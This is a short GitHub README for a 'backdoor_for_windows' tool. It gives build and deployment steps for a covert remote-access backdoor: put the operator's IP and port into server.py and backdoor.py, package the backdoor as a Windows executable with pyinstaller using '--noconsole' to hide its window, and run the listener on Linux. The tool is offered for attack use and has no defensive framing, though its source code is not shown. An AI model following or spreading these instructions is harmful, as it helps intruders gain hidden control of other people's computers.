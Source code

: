 # backdoor_for_windows
-You'll need linux and windows machine to do this

.Edit server.py for your own ip and port number on "sock.bind(your_ip,your_port)"

.Edit backdoor.py for your own ip and port number on "s.connect(your_ip,your_port)"

.create .exe file out of backdoor.py using windows machine(python installed) and using pyinstaller "pyinstaller  backdoor.py  --onefile  --noconsole" 

.server.py has to work on linux "python3  server.py"

